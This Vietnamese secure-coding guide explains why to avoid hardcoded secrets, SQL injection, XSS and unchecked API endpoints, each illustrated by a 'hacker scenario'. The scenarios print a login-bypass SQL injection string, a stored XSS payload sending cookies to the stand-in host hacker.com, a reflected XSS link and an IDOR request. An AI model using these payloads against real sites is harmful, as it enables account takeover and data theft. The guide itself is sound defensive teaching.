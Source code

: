 # Giải Thích Hướng Dẫn Bảo Mật VibeCoding: Tại Sao Chúng Tôi Nhấn Mạnh Nhiều Đến Vậy?

Tài liệu này giải thích tầm quan trọng của từng quy tắc trong "Hướng Dẫn Bảo Mật". Hiểu được điều này sẽ giúp bạn nhìn code của mình từ "góc nhìn của hacker" và ngăn chặn vấn đề trước khi chúng xảy ra.

---

## ⭐ Quy Tắc Vàng

### 【Không bao giờ hardcode bí mật】 & 【Sử dụng biến môi trường】 & 【Bỏ qua file bí mật】

**Tại sao điều này quan trọng?**

Ba quy tắc này là luật sinh tồn tối cao của thế giới số. Code của bạn (đặc biệt khi sử dụng Git) sẽ được sao chép, chia sẻ và lưu trữ ở nhiều nơi. Viết mật khẩu, khóa API và các "bí mật" khác trực tiếp vào code giống như xăm mật khẩu két sắt lên trán - bất kỳ ai nhìn thấy bạn (nhìn thấy code) đều có thể dễ dàng mở két sắt của bạn.

**Kịch Bản Hacker 😈**
> Tôi thích tìm kiếm `password`, `api_key` hoặc `db_connect` trên GitHub. Tôi tìm thấy dự án công khai của bạn và trong file tên `config.js` tôi thấy code này: `const db_password = 'Password123!';`. Hoàn hảo! Tôi thậm chí không cần tấn công website của bạn - giờ tôi có thể thử kết nối trực tiếp với cơ sở dữ liệu của bạn bằng mật khẩu này.

**Hậu Quả Thảm Khốc 💥**

**Kiểm soát hoàn toàn dịch vụ.** Hacker có thể đánh cắp, thay đổi, xóa tất cả dữ liệu người dùng của bạn, hoặc sử dụng dịch vụ API trả phí của bạn cho hoạt động bất hợp pháp, với tất cả hóa đơn ghi tên bạn.

---

## 📥 Xử Lý Đầu Vào Người Dùng

### 【Ngăn Chặn Tấn Công SQL Injection】

**Tại sao điều này quan trọng?**

Hãy tưởng tượng cơ sở dữ liệu như một robot chỉ hiểu ngôn ngữ SQL. Nếu bạn nối trực tiếp đầu vào của người dùng với lệnh của mình, người dùng có cơ hội nói "lệnh" của riêng họ. Truy vấn tham số hóa nói với robot: "Nghe này, phần tiếp theo chỉ là **dữ liệu** - dù nội dung là gì, đừng thực thi nó như lệnh."

**Kịch Bản Hacker 😈**
> Trong trường đăng nhập của website bạn, tôi nhập `' OR '1'='1' --` làm tên người dùng. Tôi giả định rằng truy vấn SQL của bạn được viết như thế này: `"SELECT * FROM users WHERE username = '" + userInput + "';`. Đầu vào của tôi đã biến nó thành `SELECT * FROM users WHERE username = '' OR '1'='1' --';`. `'1'='1'` luôn đúng, vậy nên tôi đã bỏ qua xác minh mật khẩu và đăng nhập thành công vào tài khoản người dùng đầu tiên (thường là admin).

**Hậu Quả Thảm Khốc 💥**

Kẻ tấn công có thể bỏ qua đăng nhập, đánh cắp tất cả dữ liệu cơ sở dữ liệu (danh sách người dùng, hash mật khẩu), hoặc thậm chí xóa cơ sở dữ liệu.

### 【Ngăn Chặn Tấn Công Cross-Site Scripting (XSS)】

**Tại sao điều này quan trọng?**

Nếu website của bạn giống như một tấm gương phản chiếu trực tiếp nội dung đầu vào của người dùng, thì người dùng có thể nhúng script JavaScript độc hại vào nội dung. Khi người dùng khác duyệt nội dung này, script độc hại sẽ thực thi trong trình duyệt của họ, đánh cắp thông tin của họ. Mã hóa thực thể HTML chuyển đổi các ký tự đặc biệt trong script độc hại (như `<`, `>`) thành văn bản thuần túy vô hại, khiến chúng không thể thực thi.

**Kịch Bản Hacker 😈**
> Tôi để lại bình luận trong mục bình luận bài viết của bạn: `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`. Văn bản này được lưu trữ trong cơ sở dữ liệu như cũ. Giờ đây bất kỳ người dùng nào đọc bình luận này sẽ có trình duyệt tự động thực thi script này, gửi cookie đăng nhập của họ đến server của tôi. Với cookie, tôi có thể mạo danh họ để đăng nhập website.

**Phương Pháp Tấn Công Nâng Cao: Code của Người Dùng A Có Thể Đánh Cắp Dữ Liệu của Người Dùng B Như Thế Nào?**

Nhiều người thắc mắc: "Kẻ tấn công không sửa đổi website của tôi, vậy làm sao họ có thể đánh cắp dữ liệu của người dùng khác?" Để tôi giải thích bằng một ví dụ hoàn chỉnh:

1. **Kẻ tấn công A tạo link độc hại**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **Kẻ tấn công lừa nạn nhân B thông qua kỹ thuật xã hội**
   - Email: "Hãy xem tác phẩm tuyệt vời của nhiếp ảnh gia này!"
   - Bài đăng mạng xã hội, bình luận diễn đàn, v.v.

3. **Điều gì xảy ra khi nạn nhân B nhấp vào link?**
   ```php
   // Code của bạn (dễ bị tấn công)
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // Đầu ra thực tế đến trình duyệt của B
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **Tại sao họ có thể đánh cắp dữ liệu của B?**
   - B đã đăng nhập vào website của bạn
   - Script độc hại chạy dưới **domain của bạn**, vì vậy nó có thể:
     - Đọc cookie của B (thông tin đăng nhập)
     - Truy cập localStorage của B
     - Thực hiện yêu cầu thay mặt B
     - Sửa đổi nội dung trang (ví dụ: form đăng nhập giả)

**Phép So Sánh Đơn Giản**
Hãy tưởng tượng website của bạn là một ngân hàng:
- Kẻ tấn công A đặt một "phiếu rút tiền giả" (script độc hại) trong sảnh ngân hàng
- Khách hàng B nghĩ nó hợp pháp và nhập mật khẩu
- A lấy được mật khẩu của B

XSS cho phép kẻ tấn công đặt "phiếu rút tiền giả" (code độc hại) trong "sảnh ngân hàng" của bạn (website).

Đó là lý do tại sao bạn phải sử dụng `htmlspecialchars()` - nó đảm bảo tất cả đầu vào của người dùng được hiển thị dưới dạng văn bản thuần túy, không phải code có thể thực thi.

**Hậu Quả Thảm Khốc 💥**

Đánh cắp tài khoản người dùng hàng loạt, rò rỉ dữ liệu cá nhân, website bị xâm nhập với nội dung lừa đảo hoặc script đào coin.

---

## 🔐 Quyền Hạn và Xác Thực

### 【Bảo Vệ API Endpoint】

**Tại sao điều này quan trọng?**

Giao diện frontend (UI) có thể ẩn nút, nhưng hacker không bao giờ tin tưởng giao diện. Họ gọi API backend của bạn trực tiếp bằng công cụ (như Postman, curl). Bạn phải giả định rằng mỗi API endpoint sẽ bị tấn công trực tiếp, vì vậy mỗi endpoint phải là một bảo vệ độc lập, tự kiểm tra danh tính và quyền hạn của khách thăm.

**Kịch Bản Hacker 😈**
> Tôi phát hiện rằng để sửa đổi thông tin cá nhân, frontend gửi request đến `/api/user/update`. Mặc dù tôi không thể thấy nút chỉnh sửa của người khác, tôi giả định rằng API này phân biệt người dùng thông qua `userId`. Tôi thử gửi request đến `/api/user/update?userId=1` (ID admin) với dữ liệu tôi muốn sửa đổi. Trời ơi, server không kiểm tra xem request có thực sự đến từ tôi cá nhân và đã thành công thay đổi email của admin!

**Hậu Quả Thảm Khốc 💥**

Người dùng bình thường có thể thay đổi dữ liệu của người dùng khác hoặc thậm chí admin, hoặc thực thi quyền hạn mà họ không nên có, gây ra hỗn loạn hệ thống.